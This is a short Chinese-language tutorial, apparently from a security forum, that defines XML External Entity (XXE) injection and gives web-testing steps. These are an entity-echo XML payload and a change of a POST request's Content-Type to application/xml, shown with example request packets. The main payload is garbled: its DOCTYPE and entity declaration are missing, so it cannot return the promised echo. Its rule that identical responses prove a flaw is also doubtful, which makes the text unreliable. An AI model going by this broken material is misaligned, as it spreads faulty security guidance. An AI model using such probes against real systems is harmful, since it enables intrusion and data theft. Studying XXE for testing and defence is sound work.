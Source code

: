XXE定义
=====

XXE漏洞指的是**XML外部实体注入**（XML External Entity Injection）漏洞，它是一种常见的安全漏洞类型，可以用来攻击基于XML的应用程序。当应用程序接受XML输入时，攻击者可以插入带有外部实体引用的恶意XML数据，从而导致应用程序执行未经授权的操作，比如访问本地文件系统、执行远程代码等。攻击者可以通过利用XXE漏洞来获取敏感信息、控制服务器，或者执行其他恶意操作。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-308054fbf605455e50dd0a5d90efc9becabe93d3.png)

1、web测试
=======

1.2、随手测试
--------

### 1.2.1、最简单的测试

如遇与xml交互的地方，使用如下payload，如果返回“this is test”，则证明存在xxe漏洞，并且是个有回显的漏洞。

```php
<?xml version="1.0" encoding="UTF-8"?> 
 
]> 
<root>&test;</root>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-22a0f85169c801ce7ce4173ae2385013f6a52a80.png)

### 1.2.2、添加xml代码

```php
修改Content-Type: application/xml
X-Requested-With: XMLHttpRequest
```

例如，一个普通的请求包：

```php
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
foo=bar
```

可以更改为下面的请求包：

```php
POST /action HTTP/1.0
Content-Type: application/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?>
<foo>bar</foo>
```

如果两个请求包的返回包一样那么就存在XXE漏洞
